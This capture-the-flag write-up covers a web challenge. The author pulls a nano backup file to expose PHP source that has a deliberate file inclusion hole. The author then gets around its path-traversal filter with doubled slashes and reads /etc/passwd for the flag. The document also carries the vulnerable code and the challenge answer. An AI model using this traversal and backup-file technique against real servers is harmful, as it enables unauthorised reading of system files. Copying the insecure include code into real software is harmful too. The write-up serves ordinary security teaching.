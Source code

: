 # Is nano good? (Junior - 2 pcts.)

----------


This is our new admin platform interface. Can you test it?
[Visit website](https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login)


----------


https://junior2.dctf-quals-17.def.camp/?page=theme/admin/login

Because nano tips, I added ~ to index.php and get the source code.

https://junior2.dctf-quals-17.def.camp/index.php~


```php

<?php
$page = $_GET["page"];
$type = $_GET["type"];
if (strpos($page, './../') !== false){
	header("Location: https://www.youtube.com/watch?v=dQw4w9WgXcQ");
	die();
}

if (strpos($page, '..././') !== false){
	header("Location: http://leekspin.com/");
	die();
}

if (strpos($page, '%') !== false){
	header("Location: http://www.nyan.cat/");
	die();
}

if (strpos($page, 'fille') !== false){
	header("Location: https://www.youtube.com/watch?v=o1eHKf-dMwo");
	die();
}

if (strpos($page, '/etc/passwd') === 0) {
	header("Location: https://www.youtube.com/watch?v=djV11Xbc914");
	die();
}
# I wonder if I can bypass path traversal restriction by going back and forward within the directorys....
if ($type == ""){
	echo file_get_contents($page.".php");
} else {
	#maybe we need something from the website
	echo file_get_contents($page);
}
?>

```

guess the flag is in the /etc/passwd.

use // to replace /


parameters :

https://junior2.dctf-quals-17.def.camp/?type=a&page=//etc//passwd

```

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
DCTF{7569fd:x:1001:1001::/home/DCTF{7569fd:
4bf5b7ded2f:x:1002:1002::/home/4bf5b7ded2f:
c48b33a7972:x:1003:1003::/home/c48b33a7972:
c0752d13db4:x:1004:1004::/home/c0752d13db4:
32ff9930a99:x:1005:1005::/home/32ff9930a99:
6c567ea3321:x:1006:1006::/home/6c567ea3321:
13b}:x:1007:1007::/home/13b}:
```

Flag :
DCTF{7569fd4bf5b7ded2fc48b33a7972c0752d13db432ff9930a996c567ea332113b}
